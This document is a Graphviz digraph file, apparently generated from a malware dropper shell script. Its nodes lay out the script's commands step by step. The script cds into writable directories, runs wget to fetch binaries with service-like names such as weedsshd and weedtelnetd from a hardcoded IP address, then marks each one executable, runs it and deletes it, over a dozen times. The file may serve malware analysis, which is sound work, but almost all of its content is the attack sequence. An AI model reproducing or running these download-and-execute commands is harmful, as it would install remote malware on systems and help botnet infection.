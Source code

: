 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://91.121.226.98/weedntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x weedntpd "];
12 -> 14 [label=";,"];
14 [label="./weedntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf weedntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://91.121.226.98/weedsshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x weedsshd "];
30 -> 32 [label=";,"];
32 [label="./weedsshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf weedsshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://91.121.226.98/weedopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x weedopenssh "];
48 -> 50 [label=";,"];
50 [label="./weedopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf weedopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://91.121.226.98/weedbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x weedbash "];
66 -> 68 [label=";,"];
68 [label="./weedbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf weedbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://91.121.226.98/weedtftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x weedtftp "];
84 -> 86 [label=";,"];
86 [label="./weedtftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf weedtftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://91.121.226.98/weedwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x weedwget "];
102 -> 104 [label=";,"];
104 [label="./weedwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf weedwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://91.121.226.98/weedcron "];
118 -> 120 [label=";,"];
120 [label="chmod +x weedcron "];
120 -> 122 [label=";,"];
122 [label="./weedcron "];
122 -> 124 [label=";,"];
124 [label="rm -rf weedcron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://91.121.226.98/weedftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x weedftp "];
138 -> 140 [label=";,"];
140 [label="./weedftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf weedftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://91.121.226.98/weedpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x weedpftp "];
156 -> 158 [label=";,"];
158 [label="./weedpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf weedpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://91.121.226.98/weedsh "];
172 -> 174 [label=";,"];
174 [label="chmod +x weedsh "];
174 -> 176 [label=";,"];
176 [label="./weedsh "];
176 -> 178 [label=";,"];
178 [label="rm -rf weedsh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://91.121.226.98/weedshit "];
190 -> 192 [label=";,"];
192 [label="chmod +x weedshit "];
192 -> 194 [label=";,"];
194 [label="./weedshit "];
194 -> 196 [label=";,"];
196 [label="rm -rf weedshit "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://91.121.226.98/weedapache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x weedapache2 "];
210 -> 212 [label=";,"];
212 [label="./weedapache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf weedapache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://91.121.226.98/weedtelnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x weedtelnetd "];
228 -> 230 [label=";,"];
230 [label="./weedtelnetd "];
230 -> 231 [label=";,"];
}
